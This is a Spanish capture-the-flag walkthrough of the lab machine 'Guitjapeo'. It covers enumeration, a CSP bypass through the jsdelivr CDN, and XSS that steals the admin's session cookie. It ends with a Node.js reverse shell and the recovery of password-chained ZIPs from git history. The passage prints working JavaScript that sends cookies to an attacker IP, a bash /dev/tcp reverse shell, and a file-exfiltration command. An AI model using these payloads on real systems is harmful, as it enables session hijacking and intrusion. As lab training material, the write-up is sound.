CTF donde tendremos que programar, aprender sobre git y crearnos una cuenta de GitHub. 



Espero que sea de vuestro agrado.

## Tabla de contenido 

## Enumeración

```bash
└─$ nmap -p- -n -Pn 192.168.1.173                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 04:09 CEST
Nmap scan report for 192.168.1.173
Host is up (0.00048s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.13 seconds
```

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ sudo nmap -p22,80,443 -sCV -T4 -n -Pn 192.168.1.173 -o nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 04:13 CEST
Nmap scan report for 192.168.1.173
Host is up (0.00070s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:f7:30:5e:e8:28:bb:0e:cd:8e:5e:9c:33:f0:0a:cd (ECDSA)
|_  256 04:50:bf:6f:21:23:ba:3a:c0:d2:89:d3:19:60:b1:03 (ED25519)
80/tcp  open  http     nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
443/tcp open  ssl/http nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-title: Animaci\xC3\xB3n Personalizada
| ssl-cert: Subject: commonName=guitjapeo.thl/organizationName=Company/stateOrProvinceName=State/countryName=US
| Not valid before: 2024-09-21T01:00:07
|_Not valid after:  2025-09-21T01:00:07
MAC Address: 08:00:27:B3:F9:E1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

Encontramos un servicio web con el dominio `guitjapeo.thl`, lo añadimos al fichero hosts e intentamos acceder, el virtualhost default y los virtualhost en el puerto 80 nos redireccionan a `https://guitjapeo.thl` en el puerto 443 con un certificado auto-firmado.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ sudo nano /etc/hosts                                           
                                                                                                              
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
192.168.1.173   guitjapeo.thl
```



Escaneamos este sitio web.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://guitjapeo.thl -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://guitjapeo.thl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 808]
/register             (Status: 200) [Size: 795]
/css                  (Status: 301) [Size: 153] [--> /css/]
/Login                (Status: 200) [Size: 808]
/js                   (Status: 301) [Size: 152] [--> /js/]
/messages             (Status: 302) [Size: 28] [--> /login]
/logout               (Status: 302) [Size: 28] [--> /login]
/Register             (Status: 200) [Size: 795]
/Logout               (Status: 302) [Size: 28] [--> /login]
/Messages             (Status: 302) [Size: 28] [--> /login]
/LogIn                (Status: 200) [Size: 808]
/LOGIN                (Status: 200) [Size: 808]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```

## Enumeración 2

Entramos en `https://guitjapeo.thl/register` y creamos un usario.



y validamos nuestro usuario en `https://guitjapeo.thl/login`. Conseguiremos entrar a `https://guitjapeo.thl/messages`.



Vemos que hay una especie de api donde se envían los mensaje y se lee el listado de usuarios entre otras cosas, seguimos buscando con gobuster en la ruta de la api.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://guitjapeo.thl/api -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://guitjapeo.thl/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/info                 (Status: 200) [Size: 188]
/users                (Status: 302) [Size: 28] [--> /login]
/messages             (Status: 302) [Size: 28] [--> /login]
/Info                 (Status: 200) [Size: 188]
/Users                (Status: 302) [Size: 28] [--> /login]
/command              (Status: 302) [Size: 28] [--> /login]
/Command              (Status: 302) [Size: 28] [--> /login]
/Messages             (Status: 302) [Size: 28] [--> /login]
/INFO                 (Status: 200) [Size: 188]
Progress: 77150 / 220560 (34.98%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 77299 / 220560 (35.05%)
===============================================================
Finished
===============================================================
```

Encontramos otros endpoints interesantes, visitamos el endpoint /api/info y nos devuelve un json con las cabeceras.



## Secuestro de cookies

En el formulario de mensajes podemos enviar una URL, parece que en el desplegable podemos seleccionar al usuario que le queremos enviar un mensaje. Aparecen todos los usuarios creados por nosotros y el usuario "Administrador", intentamos enviar una URL al administrador para ver si la visita y podemos capturar la cookie.

Hacemos una primera comprobación enviando una URL con la ip de nuestra maquina y un servicio http con python.



Parece que el usuario "Administrador" esta visitando todos los enlaces que se le envían por la aplicación. Si intentamos leer la cookie de sesión no podremos porque tiene configurado "HttpOnly" esto impide leer la cookie desde el navegador, solo es posible leerla desde el lado del servidor.



Esto tiene solución si utilizamos el endpoint `/api/info` que nos permite leer las cabeceras, incluida la de las cookies.

### XSS

Para poder secuestrar la cookie primero tenemos que conseguir leerla, para ello necesitamos un XSS que encontramos en la página principal. Pero tiene configuradas una cabeceras de Content Security Policy (CSP) que dificultan la tarea.

```
Content-Security-Policy: default-src 'self' 'unsafe-inline';script-src 'self' https://cdn.jsdelivr.net;style-src 'self' https://fonts.googleapis.com;font-src 'self' https://fonts.gstatic.com;img-src 'self';object-src 'none';frame-src 'none';connect-src 'self';upgrade-insecure-requests;base-uri 'self';form-action 'self';frame-ancestors 'self';script-src-attr 'none'
```

Primero realizamos pruebas para intentar leer nuestra propia cookie. Como podemos ver en la cabecera de las CSP se pueden cargar script desde el dominio `https://cdn.jsdelivr.net`, esto nos permite cargar script desde nuestro repositorio de github mediante el siguiente formato de URL:

```
https://cdn.jsdelivr.net/gh/{USUARIO_GITHUB}/{REPORT}@{BRANCH}/{PATH_FICHERO}
```

Nos creamos una cuenta de GitHub si aun no la tenemos, creamos un repositorio y añadimos el siguiente fichero javascript, sustituye la ip por la de tu maquina atacante.

```javascript
// cookies.js
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.1.116/?data="+btoa(sess);
};
```

Mi usuario GitHub es `Len4m`, el report que he creado es `temp` y la rama `main`, asi que la url de mi script a traves del CDN de jsdelivr es.

```url
https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js
```

Nos ponemos a escuchar con un servicio http en el puerto 80 en nuestra maquina atacante, después introducimos en el formulario "Contenido animación" de la pagina principal el siguiente código y lo enviamos

```<script src="https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js"></script>```

Conseguimos obtener nuestra propia cookie de sesión.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.116 - - [21/Sep/2024 05:19:40] "GET /?data=Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== | base64 -d
connect.sid=s%3ABCzPIFeotC4bPB2tk6JDDedHQvS_vpmZ.0bWOm47IQ60F7S%2BvLLLUC3dipyLPgJT6qYgLNApmyso
```

### Obtener sesión Administrador

Con lo que hemos preparado ahora podemos enviar un mensaje al usuario Administrador con una URL que carge nuestro script, un poco de explicación:

- Enviamos mensaje al administrador con la URL maliciosa.
- El administrador hace clic y carga la URL en su navegador.
- La URL carga nuestro script de github.
- Nuestro script conecta con el endpoint /api/info para obtener la cookie de sesión.
- El script direcciona el navegador del Administrador a nuestra maquina atacante enviando un parámetro data con las cookies del Administrador codificada en base64.

Nos ponemos a escuchar en nuestra maquina atacante.

```
python3 -m http.server 80
```

Enviamos un mensaje al administrador con la siguiente URL...

```
https://guitjapeo.thl/?text=%3Cscript%20src%3D%22https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FLen4m%2Ftemp%40main%2Fcookies.js%22%3E%3C%2Fscript%3E
```

... y esperamos que haga clic para recibir su cookie de sesión.



Descodificamos el base64 y añadimos los datos de la sesión a nuestra sesión desde el navegador.

```
┌──(kali㉿kali)-[~]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQTlhNU5rN1U4MjJqSjhzVHZaMG1kXzE3ek1kWVpSaFNLLld0bnZQeDFkV0xLTHY0bE9yNk9FUzFlMHdiNG9zVyUyRjAwOWs2QXVscVo1bw== | base64 -d
connect.sid=s%3A9a5Nk7U822jJ8sTvZ0md_17zMdYZRhSK.WtnvPx1dWLKLv4lOr6OES1e0wb4osW%2F009k6AulqZ5o 
```
Actualizamos la pagina después de modificar la cookie y ya somos el usuario Administrador.



## RCE

Ahora como administrador tenemos acceso a otro endpoint `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, parece que podemos enviar comandos con javascript, asi que preparamos un netcat escuchando en el puerto 12345 y cargamos la siguiente URL en el navegador o mediante curl con la cookie del usuario Administrador.

```bash
nc -lvnp 12345
```

Url encodeamos el siguiente javascript

```javascript
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"')
```

y lo añadimos a la URL como

```
https://guitjapeo.thl/api/command/?cmd=require%28%27child_process%27%29.exec%28%27bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.116%2F12345%200%3E%261%22%27%29
```



Obtenemos un shell con el usuario lenam.

## Escalada privilegios

Tratamos la tty y miramos que obtenemos en la carpeta de la aplicación y que usuarios hay. 
Parece fácil ya que solo hay el usuario root.

```bash
lenam@guitjapeo:~/.local/bin/web$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
lenam:x:1000:1000:,,,:/home/lenam:/bin/bash
lenam@guitjapeo:~/.local/bin/web$ ls -la
total 160
drwxr-xr-x   7 lenam lenam   4096 Sep 20 23:48 .
drwxr-xr-x   3 lenam lenam   4096 Sep 20 18:55 ..
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
drwxr-xr-x   8 lenam lenam   4096 Sep 20 19:41 .git
-rw-r--r--   1 lenam lenam     13 Sep 20 19:39 .gitignore
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:30 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ sudo -l
[sudo] password for lenam: 
```

El usuario lenam puede ejecutar algo con sudo pero no tenemos su contraseña.

### Git History

Encontramos una carpeta .git, buscamos si hay algo en el historial del repositorio.

```bash
git log --name-only --oneline
```



Encontramos dos ficheros `archivo.zip` y `password.txt` que no están en la carpeta de la aplicación, los intentamos recuperar.

```bash
lenam@guitjapeo:~/.local/bin/web$ git checkout ecdef85 -- archivo.zip password.txt
lenam@guitjapeo:~/.local/bin/web$ ls -l
total 192
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
-rw-r--r--   1 lenam lenam  43766 Sep 21 00:38 archivo.zip
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:38 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
-rw-r--r--   1 lenam lenam    157 Sep 21 00:38 password.txt
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ cat password.txt 
# Este script está escrito en Python
def obtener_contraseña():
    return ''.join([chr(ord(c) + 1) for c in '  ..lmruuuC^'])

print(obtener_contraseña())
```

### Fichero ZIP

Nos traemos a nuestra maquina atacante los ficheros encontrados en el historial de git `archivo.zip` y `password.txt`.

En nuestra maquina atacante

```bash
nc -lvnp 2121 > archivo.zip
```

y en la maquina victima dentro de la carpeta donde están los ficheros  `archivo.zip` y `password.txt`.

```bash
cat archivo.zip > /dev/tcp/192.168.1.116/2121
```

Realizamos lo mismo para el fichero `password.txt`.

El fichero password.txt contiene una programación en python que devuelve una contraseña.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python password.txt    
!!//mnsvvvD_
```

Con esta contraseña podemos descomprimir el fichero ZIP que esta protegido con contraseña, dentro de este fichero encontramos otros 2 ficheros `archivo.zip` y `password.txt`.

El nuevo fichero ZIP sigue estando protegido por contraseña y en el fichero password.txt en esta ocasión hay una programación en ruby.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo/extract]
└─$ ls
archivo.zip  password.txt

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo/extract]
└─$ cat password.txt 
# Este script está escrito en Ruby
def obtener_contraseña
  password = 'c\\2.8\\R;"Kgn'.chars.map { |c| (c.ord + 1).chr }.join
  return password
end

puts obtener_contraseña
```

Instalamos ruby si no lo tenemos instalado y ejecutamos el fichero password.txt en esta ocasion con ruby, nos aparece una contraseña que nos permite descomprimir el siguiente fichero archivo.zip, donde volvemos a encontrar un fichero password.txt con una programación en javascript que nos devuelve una contraseña que nos permite descomprimir el siguiente ZIP, esto continua de forma encadenada, un fichero zip dentro de otro zip con su contraseña con una programación en un lenguaje de script diferente.

Hemos detectado que hay programaciones en `Python`, `JavaScript`, `Ruby` y `PHP`, instalamos lo necesario para poder ejecutar estos lenguajes de script en nuestro ordenador. En cada fichero `password.txt` hay un comentario en la primera linea que indica el tipo de programación.

